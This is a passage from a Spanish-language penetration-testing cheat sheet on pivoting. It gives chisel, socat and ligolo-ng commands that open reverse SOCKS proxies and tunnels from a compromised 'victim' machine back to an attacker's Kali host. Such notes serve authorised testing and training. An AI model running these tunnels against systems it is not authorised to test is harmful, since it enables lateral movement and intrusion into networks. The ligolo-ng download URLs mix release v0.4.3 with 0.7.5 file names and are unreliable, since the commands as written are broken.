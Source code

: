 ```powershell
.\chisel.exe client <ipKali>:8000 R:4444:socks 9001:127.0.0.1:9001 8888:127.0.0.1:80
```

- Proxy socks en puerto Kali 4444
- Mapea 9001 MS01 a 9001 Kali
- Mapea 8888 MS01 a 80 Kali
####  6.1.3. <a name='socat'></a>Socat

Port Forwarding

```bash
./socat tcp-listen:2222,fork,reuseaddr tcp:10.10.10.5:8000 &
```

Exponer un puerto local

```bash
socat TCP-LISTEN:8282,fork TCP:127.0.0.1:8080 &
```

> En este caso, el puerto `8080` no esta expuesto fuera del equipo local, pero con el comando anterior exponemos el puerto hacia fuera a través del puerto `8282`.

###  6.2. <a name='ligolo-ng'></a>Ligolo-ng

####  6.2.1. <a name='descargar-el-proxy-y-el-agente'></a>Descargar el Proxy y el Agente

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.7.5_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.7.5_Linux_64bit.tar.gz
```

####  6.2.2. <a name='preparar-las-interfaces-para-el-tunel'></a>Preparar las interfaces para el tunel

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

####  6.2.3. <a name='configurar-proxy-en-kali'></a>Configurar proxy en Kali

```bash
./proxy -laddr <LHOST>:443 -selfcert
```

####  6.2.4. <a name='configurar-el-agente-en-la-máquina-víctima'></a>Configurar el agente en la máquina víctima

```bash
./agent -connect <LHOST>:443 -ignore-cert
```
